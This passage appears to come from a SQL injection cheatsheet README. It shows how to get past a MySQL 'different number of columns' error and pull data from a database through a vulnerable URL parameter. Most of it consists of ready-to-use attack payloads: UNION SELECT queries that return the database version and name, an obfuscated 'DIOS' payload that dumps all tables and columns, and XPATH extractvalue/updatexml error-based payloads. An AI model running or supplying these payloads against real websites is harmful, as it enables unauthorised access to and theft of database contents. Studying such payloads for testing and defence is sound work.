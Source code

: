 The website should loads normally, showing us the number of the vulnerable column. In this case: **6**.

**Retrieving the version of database:**  
`https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,version(),7,8,9,10,11,12,13,14-- -`

**Retrieving the database name:**  
`https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,database(),7,8,9,10,11,12,13,14-- -`

**Using DIOS payload to dump tables & columns automatically**

Click [here](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/Error%20Based%20SQLi/README.md#dumping-with-dios) to get DIOS Payloads, which we will use in the following payload. Simply copy DIOS and replace it with **paste_DIOS_here

`https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,paste_DIOS_here,7,8,9,10,11,12,13,14-- -`

Example: `https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,concat/*!(0x3c68323e20496e6a656374657220414c49454e205348414e553c2f68323e,0x3c62723e,version(),(Select(@)+from+(selecT(@:=0x00),(select(0)+from+(/*!information_Schema*/.columns)+where+(table_Schema=database())and(0x00)in(@:=concat/*!(@,0x3c62723e,table_name,0x3a3a,column_name))))x))*/,7,8,9,10,11,12,13,14-- -`

**Retrieving tables & columns manually**

The process and the payloads for manual injecting is exactly the same. Please [click here](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Error%20Based%20SQLi#dumping-with-the-traditional-method) to get more details.

## Bypassing Error message: The used SELECT statements have a different number of columns (Third method)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md#bypassing-error-message-the-used-select-statements-have-a-different-number-of-columns-third-method)

The third method consists on XPATH queries.

**Retrieving the database version:**

-Using XPATH extractvalue:  
`and extractvalue(0x0a,concat(0x0a,(select version())))-- -`

-Using XPATH updatexml:  
`and updatexml(null,concat(0x0a,(select version())),null)-- -`

Output error:

> XPATH SYNTAX ERROR: '**5.0.35**'35

**Retrieving the database name:**

-Using XPATH extractvalue:  
`and extractvalue(0x0a,concat(0x0a,(select database())))-- -`

-Using XPATH updatexml:  
`and updatexml(null,concat(0x0a,(select database())),null)-- -`

